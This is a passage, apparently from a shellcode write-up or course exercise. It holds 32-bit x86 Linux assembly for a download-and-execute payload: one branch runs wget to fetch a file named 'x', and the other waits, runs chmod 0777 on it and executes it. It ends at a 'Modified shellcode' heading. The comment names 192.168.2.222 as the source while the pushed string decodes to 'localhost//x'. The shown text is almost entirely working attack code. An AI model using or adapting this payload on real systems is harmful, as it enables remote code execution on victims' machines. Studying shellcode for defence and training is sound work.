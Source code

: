         ;wait(NULL)
        xor eax,eax
        mov al,0x7
        int 0x80
        
        ;chmod x
        xor ecx,ecx
        xor eax, eax
        push eax
        mov al, 0xf
        push 0x78
        mov ebx, esp
        xor ecx, ecx
        mov cx, 0x1ff
        int 0x80
    
        ;exec x
        xor eax, eax
        push eax
        push 0x78
        mov ebx, esp
        push eax
        mov edx, esp
        push ebx
        mov ecx, esp
        mov al, 11
        int 0x80
    
    child:
        ;download 192.168.2.222//x with wget
        push 0xb
        pop eax
        cdq
        push edx
    
        push 0x782f2f74  ; x//t
        push 0x736F686C  ; sohl
        push 0x61636f6c  ; acol
        mov ecx,esp
        push edx
    
        push 0x74 ;t
        push 0x6567772f ;egw/
        push 0x6e69622f ;nib/
        push 0x7273752f ;rsu/
        mov ebx,esp
        push edx
        push ecx
        push ebx
        mov ecx,esp
        int 0x80


**Modified shellcode:**
